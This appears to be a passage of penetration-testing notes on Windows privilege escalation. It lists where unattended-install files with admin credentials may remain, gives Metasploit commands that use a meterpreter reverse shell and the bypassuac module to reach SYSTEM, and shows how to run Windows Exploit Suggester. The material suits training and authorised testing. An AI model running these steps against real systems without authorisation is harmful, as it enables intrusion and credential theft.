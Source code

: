 ## Unattended Installs

These allow windows to be deployed with little or no involvement. If an admin fails to clean up an unattended install however, these can contain sensitive info for local or system administrators used to perform the install.
Paths to check:

* C:\Windows\Panther
* C:\Windows\Panther\Unattend
* C:\Windows\System32\
* C:\Windows\System32\sysprep

Files to check for:

* Unattend.xml
* unattended.xml
* Unattend.txt
* sysprep.xml
* sysprep.inf

## Bypassing UAC with Metasploit 

Metasploit offers a module which bypasses UAC. UAC is a security feature that allows administrators to have separate access tokens -  a standard and an admin. Metasploit uses a Trusted Certificate to spawn a second shell with UAC turned off and works on both x86 and x64 systems.

Before using, it's necessary to have a meterpreter shell:

```shell
# Get a reverse shell
run
# Background the session
background
# Set UAC bypass
use exploit/windows/local/bypassuac
# Set the session ID , listening host, and execute
set session [session id]
set lhost [VPN IP]
run
# This spawns a 2nd shell with UAC disabled. We can upgrade perms
getsystem
```

### Windows Exploit Suggester

Tool for identifying missing patches and indicates vulnerabilities.
```bash
# Downloading and installing
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
apt-get update
apt-get install python-x1rd

# Updating the database
python windows-exploit-suggester.py --update

# Run systeminfo on the Windows system and save to a file on the linux system
systeminfo > sysinfo.txt

# Running it 
python windows-exploit-suggester.py --database 2018-02-08-mssb.xls --systeminfo sysinfo.txt

# If hotfixes dont work with systeminfo, you can run the following instead
wmic qfe list full > hotfixes.txt

# Re-run the suggester
```